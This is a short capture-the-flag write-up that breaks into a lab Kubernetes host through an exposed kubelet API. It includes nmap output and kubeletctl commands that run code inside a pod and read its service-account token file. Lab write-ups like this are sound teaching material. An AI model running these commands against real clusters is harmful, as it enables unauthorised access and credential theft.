 Started with a nmap scan
```
22/tcp    open  ssh              syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 
2379/tcp  open  ssl/etcd-client? syn-ack ttl 63
2380/tcp  open  ssl/etcd-server? syn-ack ttl 63
8443/tcp  open  ssl/https-alt    syn-ack ttl 63
10249/tcp open  http             syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10250/tcp open  ssl/http         syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API
10256/tcp open  http             syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```
When running a gobuster scan on port `10250` found this folder called `logs` and we can read all the logs for the pod going to this url we can see all the pods running on the host `https://10.10.11.133:10250/pods` and we can get RCE with nginx from the link we can see the path and now we can use `kubeletctl` now we can run this command `kubeletctl --server 10.10.11.133 pods` to list the pods running this command we can read files inside the pod `kubeletctl --server 10.10.11.133 exec ls -p nginx -c nginx` to get the token `kubeletctl --server 10.10.11.133 exec 'cat /var/run/secrets/kubernetes.io/serviceaccount/token' -p nginx -c nginx` and we can use the same command to get the certificate now we need to make a fake yaml file to load up a pod and now we can exacute commands and get both flags 
